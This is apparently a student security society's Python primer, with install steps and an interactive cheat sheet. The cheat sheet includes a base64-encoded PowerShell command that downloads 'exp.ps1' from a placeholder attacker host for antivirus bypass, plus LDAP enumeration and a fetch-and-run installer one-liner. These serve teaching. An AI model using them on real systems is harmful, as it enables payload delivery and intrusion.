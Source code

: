 # Intro

Python is a powerful and versatile language with a relatively easy to learn syntax.

We may use Python in some of our sessions for a few purposes:

- running pre-written exploits from exploitDB
- writing custom exploits
- simple automation tasks
- complex automation examples such as web scraping
- using nice builtins, such as text encoding options, when building shellcode

# Installation

You can download Python for pretty much any Operating System [here](https://www.python.org/downloads/).

Alternatively, you can use Seb's instructions for installing Python along with Selenium, a useful browser automation tool. They're detailed below.

## Linux Setup

For linux setup, you can type the following command below to instantly install python, pip and selenium (in the browser of your choice [Chrome or Linux]):

```bash
wget https://shefesh.com/session_scripts/SeleniumLinux.bash; bash SeleniumLinux.bash
```

## Windows Setup

Download python 3 and pip from the [Microsoft Store](https://www.microsoft.com/store/productId/9PJPW5LDXLZ5). If you already have it installed from the Python website you can skip this step.

### Selenium Installation

In Command Prompt or Powershell, type:

```cmd
pip3 install selenium
```

## MacOS Installation

MacOS users can follow any of the following guides:

- [MacOS Python Guide](https://docs.python.org/3/using/mac.html)
- [Python Download Page](https://www.python.org/downloads/macos/)
- [Pip Installation Video for Python (If not installed)](https://www.youtube.com/watch?v=yBdZZGPpYxg)
- [MacOS Selenium Installation Video](https://www.youtube.com/watch?v=7R5n0sNSza8)

## Selenium Driver Download
Linux users won't have to follow this step for Chrome and Firefox unless you have another browser in mind for the session.
When downloading, CHECK YOUR BROWSER VERSION as it needs to compatible and run the version of the webbrowser you currently have on your computer.

- [Firefox Driver](https://github.com/mozilla/geckodriver/releases/tag/v0.30.0)
- [Chrome Driver](https://chromedriver.chromium.org/downloads)
- [Microsoft Edge Driver](https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/)
- [Internet Explorer Driver](https://www.selenium.dev/downloads)
- Safari Driver is built in to Safari
- [Opera Driver](https://github.com/operasoftware/operachromiumdriver/releases)

# Learning Python

While we would like to teach you everything about Python in one short lesson, that's not really possible. It takes a while to learn, but luckily there are a few resources out there that are much better than us at teaching it.

The best way to learn is, often, to build something from scratch (coming to our Automation session, for example, will teach you how to build a web scraper). But despite how easy Python is to pick up, it's useful to know some of the basics beforehand.

Here are a few courses. There's no requirement to do these, but you may find them useful if you're interested in learning it:

- Python themselves have a [Beginner's Guide](https://wiki.python.org/moin/BeginnersGuide) and a [Getting Started](https://www.python.org/about/gettingstarted/) tutorial
- This course was built by a former SESH committee member, Brooks Rady. Start with the 'Basics of Programming in Python' lesson: [https://sheffield-bionics.gitlab.io/bionics-general/](https://sheffield-bionics.gitlab.io/bionics-general/)
- codecademy has a course for the most recent Python version: [https://www.codecademy.com/learn/learn-python-3](https://www.codecademy.com/learn/learn-python-3)

You can also find the Python Documentation [here](https://docs.python.org/3/), which is a well-written reference guide if you have a specific question (but not a great way to learn the language).

# Cheatsheet

Here are some useful commands from Python that we end up using frequently.

Launch an interactive Python shell (in any CLI):

```bash
$ python
```

> Note: some linux distributions, including Kali, have Python 2 installed for backwards compatibility - to use Python 3, you must type python3 in the command line

Within the shell you can import a module or local file with `import`:

```bash
┌──(kali㉿kali)-[~]
└─$ python3                            
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> import localscript.py
```

Run a method from a native or imported class, such as `os.system()` or `os.setuid()`:

```bash
>>> import os
>>> os.system("id")
uid=1000(kali) gid=1000(kali) groups=1000(kali),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),143(kaboxer)
0
>>> os.setuid(0)
>>> os.system("id")
uid=0(root) gid=0(root) groups=0(root),20(dialout),120(wireshark),143(kaboxer)
0
```

Send a HTTP request:

```bash
>>> import requests
>>> r = requests.get("http://example.com")
>>> print(r)
<Response [200]>
```

Or raw socket data, decoding the response in UTF-8 format:

```bash
>>> import socket
>>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> connect = s.connect(('IP',25))
>>> banner = s.recv(1024)
>>> print(banner.decode("utf-8"))
```

Create and sign a JWT token:

```bash
>>> import jwt
>>> from datetime import datetime, timedelta
>>> key = "verysecretkeylol"
>>> encoded = jwt.encode({"exp": datetime.utcnow() + timedelta(days=7), "key": "value"}, key, algorithm="HS256")
>>> print(encoded)
```

Calculate the difference between two hex values (useful in binary exploitation):

```bash
>>> 0x01611C8C - 0x016119FC
656
```

Quickly enumerate an Active Directory server with LDAP:

```bash
>>> import ldap3
>>> server = ldap3.Server('IP',get_info = ldap3.ALL, port = 389, use_ssl = False)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```

Encode some text in base64 for a powershell encoded command (useful for basic antivirus bypass):

```bash
>>> import base64
>>> command = "Invoke-WebRequest http://YOUR_IP/exp.ps1 -o exp.ps1"
>>> print(base64.b64encode(command.encode("utf-16le")).decode())
SQBuAH...cwAxAA==
```

Test a regex:

```bash
>>> import re
>>> re.compile(r'\[\[(.*)\]\]')
re.compile('\\[\\[(.*)\\]\\]')
>>> p = re.compile(r'\[\[(.*)\]\]')
>>> string = "[[capture this]]"
>>> m = re.match(p, string)
>>> print(m.group(1))
capture this
```

As you can see, there's plenty it can do! The interactive Python shell is especially useful for testing small changes to scripts without having to modify the file itself.